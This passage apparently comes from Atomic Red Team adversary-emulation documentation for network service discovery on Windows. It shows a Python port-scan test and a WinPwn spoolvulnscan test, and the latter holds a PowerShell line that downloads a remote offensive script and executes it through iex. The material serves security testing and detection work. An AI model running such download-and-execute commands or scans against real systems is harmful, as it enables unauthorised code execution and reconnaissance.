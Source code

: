 **Supported Platforms:** Windows


**auto_generated_guid:** 6ca45b04-9f15-4424-b9d3-84a217285a5c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| host_ip | Host to scan. | string | 127.0.0.1|
| filename | Location of the project file | path | PathToAtomicsFolder&#92;T1046&#92;src&#92;T1046.py|


#### Attack Commands: Run with `powershell`! 


```powershell
python "#{filename}" -i #{host_ip}
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if python exists on the machine
##### Check Prereq Commands:
```powershell
if (python --version) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
echo "Python 3 must be installed manually"
```




<br/>
<br/>

## Atomic Test #5 - WinPwn - spoolvulnscan
Start MS-RPRN RPC Service Scan using spoolvulnscan function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 54574908-f1de-4356-9021-8053dd57439a






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
spoolvulnscan -noninteractive -consoleoutput
```
